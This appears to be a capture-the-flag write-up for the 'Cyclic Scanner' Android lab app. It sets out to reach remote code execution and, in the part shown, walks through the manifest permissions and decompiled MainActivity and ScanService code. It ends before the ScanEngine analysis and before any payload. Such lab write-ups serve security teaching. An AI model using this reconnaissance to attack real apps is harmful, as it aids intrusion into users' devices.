# Cyclic Scanner

## The Challenge: Achieving Remote Code Execution

## Methodology

1. Utilize reverse engineering tools to dissect the application's code, focusing on how it implements Android services.
2. Identify the vulnerability within the Android service and develop a strategy for its exploitation.
3. Craft a malicious payload that is specifically designed to leverage the identified vulnerability within the Android service.
4. Deploy the payload to achieve execution of the code on the device that runs the vulnerable application.

## Hints

- Investigate the application’s use of Android services for clues on potential vulnerabilities.
- Concentrate on the service’s data processing and interaction patterns for exploitation opportunities.
- Experiment with various payloads and execution techniques to determine the most effective approach.

## Reconnaissance

### Trying Out the App

Let's try to open the app and see what we can find. After opening the app, we get to see that the `All file access` is set to not allowed.



If I go back, we can see a popup saying `Permission Denied`.



Let's try to give the app `All file access` permission from the settings. After giving the app `All file access` permission, we can see that there is a switch for enabling a scanner.



Let's try turning on the switch. After turning on the switch, we can see that there is a popup saying `Scan service started, your device will be scanned regularly.`



Let's try turning off the switch. When we try to turn off the switch, we can see that there is a popup saying `Scan service cannot be stopped, this is for your own safety!` and the switch remains turned on.



### Static Analysis with JADX

Opening the application with JADX:

1. Examining the `AndroidManifest.xml`:

    - Checking out `uses-permission` tags for required permissions.

        

        ```xml
        <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
        <uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
        <uses-permission android:name="android.permission.INTERNET"/>
        ```

        We can see that the app requests `MANAGE_EXTERNAL_STORAGE`, `FOREGROUND_SERVICE`, and `INTERNET` permissions.

        `MANAGE_EXTERNAL_STORAGE` is a powerful permission that allows the app to read and write to all files on the device's external storage. This could be a potential attack vector if the app does not handle this permission securely. Note: On Android 11 and above, this permission requires special approval from Google Play.

        `FOREGROUND_SERVICE` allows the app to run a foreground service, which is a service that the user is actively aware of and is not a candidate for the system to kill when low on memory. This could be used to keep the scanning service running in the background.

        `INTERNET` permission allows the app to access the internet, which could be used to exfiltrate data or download additional payloads.

    - Checking out manifests that have `exported="true"` attributes.

        - The only interesting manifest is for `com.mobilehackinglab.cyclicscanner.MainActivity`

            

            ```xml
            <activity
                android:name="com.mobilehackinglab.cyclicscanner.MainActivity"
                android:exported="true">
                <intent-filter>
                    <action android:name="android.intent.action.MAIN"/>
                    <category android:name="android.intent.category.LAUNCHER"/>
                </intent-filter>
            </activity>
            ```

            This activity is the main entry point of the application and is exported, meaning it can be launched by other applications. However, since this is the main activity, it is expected to be exported.

    - Checking out service manifests.

        - The only interesting manifest is for `com.mobilehackinglab.cyclicscanner.scanner.ScanService`

            

            ```xml
            <service
                android:name="com.mobilehackinglab.cyclicscanner.scanner.ScanService"
                android:exported="false"/>
            ```

            This service is not exported, meaning it cannot be started by other applications. This is a good security practice as it limits the attack surface of the application.

2. Analyzing the `MainActivity` class:

    The `MainActivity` class is the main entry point of the application. It is responsible for initializing the application and starting the scanning service.

    Let's analyze the `onCreate` method:

    

    ```java
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        ActivityMainBinding activityMainBinding = null;
        EdgeToEdge.enable$default(this, null, null, 3, null);
        ActivityMainBinding activityMainBindingInflate = ActivityMainBinding.inflate(getLayoutInflater());
        Intrinsics.checkNotNullExpressionValue(activityMainBindingInflate, "inflate(...)");
        this.binding = activityMainBindingInflate;
        ActivityMainBinding activityMainBinding2 = this.binding;
        if (activityMainBinding2 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
            activityMainBinding2 = null;
        }
        setContentView(activityMainBinding2.getRoot());
        ActivityMainBinding activityMainBinding3 = this.binding;
        if (activityMainBinding3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
        } else {
            activityMainBinding = activityMainBinding3;
        }
        ViewCompat.setOnApplyWindowInsetsListener(activityMainBinding.main, new OnApplyWindowInsetsListener() { // from class: com.mobilehackinglab.cyclicscanner.MainActivity$$ExternalSyntheticLambda0
            @Override // androidx.core.view.OnApplyWindowInsetsListener
            public final WindowInsetsCompat onApplyWindowInsets(View view, WindowInsetsCompat windowInsetsCompat) {
                return MainActivity.onCreate$lambda$0(view, windowInsetsCompat);
            }
        });
        setupPermissionLauncher();
        handlePermissions();
    }
    ```

    The `onCreate` method is called when the activity is first created. It initializes the activity by setting up the view binding, enabling edge-to-edge display, and setting the content view. It also sets up a listener for window insets to handle system UI elements like the status bar and navigation bar. Finally, it calls the `setupPermissionLauncher` and `handlePermissions` methods to manage permissions.

    Next, let's analyze the `setupPermissionLauncher` method:

    

    ```java
    private final void setupPermissionLauncher() {
        ActivityResultLauncher<Intent> activityResultLauncherRegisterForActivityResult = registerForActivityResult(new ActivityResultContracts.StartActivityForResult(), new ActivityResultCallback() { // from class: com.mobilehackinglab.cyclicscanner.MainActivity$$ExternalSyntheticLambda2
            @Override // androidx.activity.result.ActivityResultCallback
            public final void onActivityResult(Object obj) {
                MainActivity.setupPermissionLauncher$lambda$1(this.f$0, (ActivityResult) obj);
            }
        });
        Intrinsics.checkNotNullExpressionValue(activityResultLauncherRegisterForActivityResult, "registerForActivityResult(...)");
        this.requestPermissionLauncher = activityResultLauncherRegisterForActivityResult;
    }
    ```

    This method sets up an `ActivityResultLauncher` that is used to request permissions from the user. It uses the `ActivityResultContracts.StartActivityForResult` contract, which allows the application to start an activity and receive a result back. This is likely used to request the `MANAGE_EXTERNAL_STORAGE` permission from the user. When the user responds to the permission request, the `onActivityResult` method is called to handle the result. It then forwards the result to the `setupPermissionLauncher$lambda$1` method for further processing.

    Next, let's analyze the `setupPermissionLauncher$lambda$1` method:

    

    ```java
    /* JADX INFO: Access modifiers changed from: private */
    public static final void setupPermissionLauncher$lambda$1(MainActivity this$0, ActivityResult it) {
        Intrinsics.checkNotNullParameter(this$0, "this$0");
        if (Environment.isExternalStorageManager()) {
            this$0.setupSwitch();
        } else {
            this$0.showPermissionDeniedPopup();
        }
    }
    ```

    This method is called when the user responds to the permission request. It checks if the application has been granted the `MANAGE_EXTERNAL_STORAGE` permission using the `Environment.isExternalStorageManager()` method. If the permission is granted, it calls the `setupSwitch` method to set up the scanner switch in the UI. If the permission is denied, it calls the `showPermissionDeniedPopup` method to display a popup informing the user that the permission was denied.

    Next, let's analyze the `handlePermissions` method:

    

    ```java
    private final void handlePermissions() {
        if (Environment.isExternalStorageManager()) {
            setupSwitch();
            return;
        }
        Intent intent = new Intent("android.settings.MANAGE_ALL_FILES_ACCESS_PERMISSION");
        ActivityResultLauncher<Intent> activityResultLauncher = this.requestPermissionLauncher;
        if (activityResultLauncher == null) {
            Intrinsics.throwUninitializedPropertyAccessException("requestPermissionLauncher");
            activityResultLauncher = null;
        }
        activityResultLauncher.launch(intent);
    }
    ```

    This method checks if the application has the `MANAGE_EXTERNAL_STORAGE` permission. If the permission is granted, it calls the `setupSwitch` method to set up the scanner switch in the UI. If the permission is not granted, it creates an intent to open the system settings for managing all files access permission and launches it using the `requestPermissionLauncher`. This will prompt the user to grant the necessary permission.

    Next, let's analyze the `showPermissionDeniedPopup` method:

    

    ```java
    private final void showPermissionDeniedPopup() {
        new AlertDialog.Builder(this).setTitle("Permission Denied").setMessage("This app requires access to manage all files. Please enable this permission in settings to continue.").setPositiveButton("Exit", new DialogInterface.OnClickListener() { // from class: com.mobilehackinglab.cyclicscanner.MainActivity$$ExternalSyntheticLambda3
            @Override // android.content.DialogInterface.OnClickListener
            public final void onClick(DialogInterface dialogInterface, int i) {
                MainActivity.showPermissionDeniedPopup$lambda$2(this.f$0, dialogInterface, i);
            }
        }).setCancelable(false).show();
    }
    ```

    This method displays a popup dialog informing the user that the permission to manage all files has been denied. The dialog has a title "Permission Denied" and a message explaining that the app requires this permission to function properly. It also includes a positive button labeled "Exit" that, when clicked, will trigger the `showPermissionDeniedPopup$lambda$2` method to handle the button click event. The dialog is set to be non-cancelable, meaning the user cannot dismiss it by tapping outside the dialog or pressing the back button.

    Next, let's analyze the `showPermissionDeniedPopup$lambda$2` method:

    

    ```java
    /* JADX INFO: Access modifiers changed from: private */
    public static final void showPermissionDeniedPopup$lambda$2(MainActivity this$0, DialogInterface dialog, int i) {
        Intrinsics.checkNotNullParameter(this$0, "this$0");
        dialog.dismiss();
        this$0.finish();
    }
    ```

    This method is called when the user clicks the "Exit" button on the permission denied popup dialog. It first dismisses the dialog by calling `dialog.dismiss()`, which closes the popup. Then, it calls `this$0.finish()`, which terminates the `MainActivity` and effectively exits the application. This ensures that if the user does not grant the required permission, they cannot continue using the app.

    Now, let's analyze the `setupSwitch` method:

    

    ```java
    private final void setupSwitch() {
        ActivityMainBinding activityMainBinding = this.binding;
        if (activityMainBinding == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
            activityMainBinding = null;
        }
        activityMainBinding.serviceSwitch.setOnCheckedChangeListener(new CompoundButton.OnCheckedChangeListener() { // from class: com.mobilehackinglab.cyclicscanner.MainActivity$$ExternalSyntheticLambda1
            @Override // android.widget.CompoundButton.OnCheckedChangeListener
            public final void onCheckedChanged(CompoundButton compoundButton, boolean z) {
                MainActivity.setupSwitch$lambda$3(this.f$0, compoundButton, z);
            }
        });
    }
    ```

    This method sets up the scanner switch in the UI. It retrieves the view binding for the activity and accesses the `serviceSwitch` component. It then sets an `OnCheckedChangeListener` on the switch, which listens for changes in the switch's state (checked or unchecked). When the state of the switch changes, it triggers the `setupSwitch$lambda$3` method to handle the event.

    Next, let's analyze the `setupSwitch$lambda$3` method:

    

    ```java
    /* JADX INFO: Access modifiers changed from: private */
    public static final void setupSwitch$lambda$3(MainActivity this$0, CompoundButton compoundButton, boolean isChecked) {
        Intrinsics.checkNotNullParameter(this$0, "this$0");
        if (isChecked) {
            Toast.makeText(this$0, "Scan service started, your device will be scanned regularly.", 0).show();
            this$0.startForegroundService(new Intent(this$0, (Class<?>) ScanService.class));
            return;
        }
        Toast.makeText(this$0, "Scan service cannot be stopped, this is for your own safety!", 0).show();
        ActivityMainBinding activityMainBinding = this$0.binding;
        if (activityMainBinding == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
            activityMainBinding = null;
        }
        activityMainBinding.serviceSwitch.setChecked(true);
    }
    ```

    This method is called when the state of the scanner switch changes. It checks whether the switch is checked (turned on) or unchecked (turned off). If the switch is checked, it displays a toast message indicating that the scan service has started and will scan the device regularly. It then starts the `ScanService` as a foreground service using an intent.

    If the switch is unchecked, it displays a toast message indicating that the scan service cannot be stopped for the user's safety. It then programmatically sets the switch back to the checked state, effectively preventing the user from turning off the scan service.

    Next, let's analyze the `startService` method:

    

    ```java
    private final void startService() {
        Toast.makeText(this, "Scan service started", 0).show();
        startForegroundService(new Intent(this, (Class<?>) ScanService.class));
    }
    ```

    This method is responsible for starting the scan service. It first displays a toast message to inform the user that the scan service has started. Then, it creates an intent to start the `ScanService` as a foreground service by calling `startForegroundService` with the intent. This ensures that the scan service runs in the foreground, allowing it to continue operating even when the app is not in the foreground.

3. Analyzing the `ScanService` class:

    Let's analyze the class definition and member variables:

    

    ```java
    private static final String CHANNEL_ID = "ForegroundScanServiceChannel";
    private static final String CHANNEL_NAME = "ScanService";
    private static final long SCAN_INTERVAL = 6000;
    private ServiceHandler serviceHandler;
    private Looper serviceLooper;
    ```

    The `ScanService` class is defined as a foreground service that is responsible for scanning the device at regular intervals. It defines several constants, including `CHANNEL_ID` and `CHANNEL_NAME`, which are used to create a notification channel for the foreground service. The `SCAN_INTERVAL` constant defines the interval at which the device will be scanned, set to 6000 milliseconds (6 seconds) in this case.

    Inside the class, there is another class for handling service messages called `ServiceHandler`:

    

    ```java
    /* compiled from: ScanService.kt */
    @Metadata(d1 = {"\u0000\u001e\n\u0002\u0018\u0002\n\u0002\u0018\u0002\n\u0000\n\u0002\u0018\u0002\n\u0002\b\u0002\n\u0002\u0010\u0002\n\u0000\n\u0002\u0018\u0002\n\u0000\b\u0082\u0004\u0018\u00002\u00020\u0001B\r\u0012\u0006\u0010\u0002\u001a\u00020\u0003¢\u0006\u0002\u0010\u0004J\u0010\u0010\u0005\u001a\u00020\u00062\u0006\u0010\u0007\u001a\u00020\bH\u0016¨\u0006\t"}, d2 = {"Lcom/mobilehackinglab/cyclicscanner/scanner/ScanService$ServiceHandler;", "Landroid/os/Handler;", "looper", "Landroid/os/Looper;", "(Lcom/mobilehackinglab/cyclicscanner/scanner/ScanService;Landroid/os/Looper;)V", "handleMessage", "", NotificationCompat.CATEGORY_MESSAGE, "Landroid/os/Message;", "app_debug"}, k = 1, mv = {1, 9, 0}, xi = ConstraintLayout.LayoutParams.Table.LAYOUT_CONSTRAINT_VERTICAL_CHAINSTYLE)
    private final class ServiceHandler extends Handler {
        final /* synthetic */ ScanService this$0;

        /* JADX WARN: 'super' call moved to the top of the method (can break code semantics) */
        public ServiceHandler(ScanService this$0, Looper looper) {
            super(looper);
            Intrinsics.checkNotNullParameter(looper, "looper");
            this.this$0 = this$0;
        }

        @Override // android.os.Handler
        public void handleMessage(Message msg) throws IOException {
            Intrinsics.checkNotNullParameter(msg, "msg");
            try {
                System.out.println((Object) "starting file scan...");
                File externalStorageDirectory = Environment.getExternalStorageDirectory();
                Intrinsics.checkNotNullExpressionValue(externalStorageDirectory, "getExternalStorageDirectory(...)");
                Sequence $this$forEach$iv = FilesKt.walk$default(externalStorageDirectory, null, 1, null);
                for (Object element$iv : $this$forEach$iv) {
                    File file = (File) element$iv;
                    if (file.canRead() && file.isFile()) {
                        System.out.print((Object) (file.getAbsolutePath() + "..."));
                        boolean safe = ScanEngine.INSTANCE.scanFile(file);
                        System.out.println((Object) (safe ? "SAFE" : "INFECTED"));
                    }
                }
                System.out.println((Object) "finished file scan!");
            } catch (InterruptedException e) {
                Thread.currentThread().interrupt();
            }
            Message $this$handleMessage_u24lambda_u241 = obtainMessage();
            $this$handleMessage_u24lambda_u241.arg1 = msg.arg1;
            sendMessageDelayed($this$handleMessage_u24lambda_u241, ScanService.SCAN_INTERVAL);
        }
    }
    ```

    The `ServiceHandler` class extends the `Handler` class and is responsible for handling messages sent to the service. It overrides the `handleMessage` method, which is called when a message is received. In this method, it performs the following actions:

    - It starts a file scan by printing "starting file scan..." to the console.
    - It retrieves the external storage directory using `Environment.getExternalStorageDirectory()`.
    - It walks through the files in the external storage directory using `FilesKt.walk$default
    - For each file, it checks if the file can be read and is a regular file. If so, it prints the file's absolute path and scans the file using the `ScanEngine.INSTANCE.scanFile(file)` method.
    - It prints whether the file is "SAFE" or "INFECTED" based on the scan result.
    - After finishing the file scan, it prints "finished file scan!" to the console.
    - It then obtains a new message and sends it back to itself with a delay defined by `SCAN_INTERVAL`, effectively scheduling the next scan.

    Next, let's analyze the `onCreate` method of the `ScanService` class:

    

    ```java
    @Override // android.app.Service
    public void onCreate() {
        super.onCreate();
        createNotificationChannel();
        HandlerThread $this$onCreate_u24lambda_u240 = new HandlerThread("ServiceStartArguments", 10);
        $this$onCreate_u24lambda_u240.start();
        this.serviceLooper = $this$onCreate_u24lambda_u240.getLooper();
        Looper looper = $this$onCreate_u24lambda_u240.getLooper();
        Intrinsics.checkNotNullExpressionValue(looper, "getLooper(...)");
        this.serviceHandler = new ServiceHandler(this, looper);
    }
    ```

    This method is called when the service is first created. It performs the following actions:
    - It calls the superclass's `onCreate` method to perform any necessary initialization.
    - It creates a notification channel for the foreground service by calling the `createNotificationChannel`
    - It creates a new `HandlerThread` named "ServiceStartArguments" with a priority of 10 (which corresponds to `THREAD_PRIORITY_BACKGROUND`).
    - It starts the handler thread to prepare it for handling messages.
    - It retrieves the `Looper` associated with the handler thread and assigns it to the `serviceLooper` member variable.
    - It creates a new instance of the `ServiceHandler` class, passing in the service instance and the looper, and assigns it to the `serviceHandler` member variable. This sets up the service to handle messages in a separate thread.

    Next, let's analyze the `onStartCommand` method of the `ScanService` class:

    

    ```java
    @Override // android.app.Service
    public int onStartCommand(Intent intent, int flags, int startId) {
        Message message;
        Intrinsics.checkNotNullParameter(intent, "intent");
        Notification notification = new NotificationCompat.Builder(this, CHANNEL_ID).setContentTitle("Cyclic Scanner Service").setContentText("Scanner is running...").build();
        Intrinsics.checkNotNullExpressionValue(notification, "build(...)");
        startForeground(1, notification);
        ServiceHandler serviceHandler = this.serviceHandler;
        if (serviceHandler != null && (message = serviceHandler.obtainMessage()) != null) {
            message.arg1 = startId;
            ServiceHandler serviceHandler2 = this.serviceHandler;
            if (serviceHandler2 != null) {
                serviceHandler2.sendMessage(message);
            }
        }
        return 1;
    }
    ```

    This method is called when the service is started. It performs the following actions:
    - It checks that the `intent` parameter is not null.
    - It creates a notification for the foreground service using the `NotificationCompat.Builder`, setting the content title to "Cyclic Scanner Service" and the content text to "Scanner is running...".
    - It starts the service in the foreground by calling `startForeground(1, notification)`, which displays the notification to the user.
    - It obtains a message from the `serviceHandler` and sets its `arg1` property to the `startId` parameter.
    - It sends the message to the `serviceHandler`, which will trigger the scanning process in the `handleMessage` method.
    - Finally, it returns 1, indicating that the service should continue running until explicitly stopped.

    Next, let's analyze the `createNotificationChannel` method of the `ScanService` class:

    

    ```java
    @Override // android.app.Service
    public IBinder onBind(Intent intent) {
        Intrinsics.checkNotNullParameter(intent, "intent");
        return null;
    }

    private final void createNotificationChannel() {
        NotificationChannel channel = new NotificationChannel(CHANNEL_ID, CHANNEL_NAME, 3);
        Object systemService = getSystemService("notification");
        Intrinsics.checkNotNull(systemService, "null cannot be cast to non-null type android.app.NotificationManager");
        NotificationManager notificationManager = (NotificationManager) systemService;
        notificationManager.createNotificationChannel(channel);
    }
    ```

    This method creates a notification channel for the foreground service. It performs the following actions:
    - It creates a new `NotificationChannel` instance using the `CHANNEL_ID`, `CHANNEL_NAME`, and a importance level of 3 (which corresponds to `IMPORTANCE_DEFAULT`).
    - It retrieves the system service for notifications by calling `getSystemService("notification")`.
    - It casts the retrieved system service to a `NotificationManager`.
    - It calls the `createNotificationChannel` method on the `NotificationManager` to create the notification channel. This allows the service to display notifications to the user while running in the foreground.

4. Analyzing the `ScanEngine` class that was used in the `ScanService` class `ServiceHandler` to scan files:

